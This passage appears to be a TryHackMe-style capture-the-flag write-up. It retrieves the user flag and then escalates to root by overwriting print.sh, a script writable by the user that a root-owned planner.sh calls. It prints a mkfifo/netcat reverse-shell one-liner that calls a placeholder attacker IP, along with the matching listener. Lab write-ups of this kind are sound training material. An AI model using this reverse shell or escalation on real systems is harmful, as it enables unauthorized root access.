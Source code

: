 <br>

# Task 2: What are the contents of user.txt?

To retrieve the user flag, we navigated to the user's `lennie` home directory `/home/lennie`

![user.txt flag](./Screenshots/cat%20user.txt.png)

<br>

# Root Privilege Escalation

To get the root flag, we need to escalate our privileges on the system.

So in the same directory, you can see a directory named `scripts`, by navigating to it, you can see a bash script named `planner.sh` owned by the `root` user and we can read its content.

![Listing the scripts directory content](./Screenshots/scripts%20directory.png)

![cat planner.sh](./Screenshots/cat%20planner.sh.png)

From the above snapshot, you can notice that the `planner.sh` script is executing another script called `print.sh` and this script is owned by the user `lennie`, great! It means that by modifying the content of the `print.sh` script, we may get a root shell!

We modified the `/etc/print.sh` script using the following command:

```console
$ rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <use_your_THM_IP> 4444 >/tmp/f
```

Then we setup a **Netcat** listener using the following command:

```console
$ nc -nlp 4444
```

We waited a few seconds, then we are now **ROOT**

![root shell](./Screenshots/root%20shell.png)
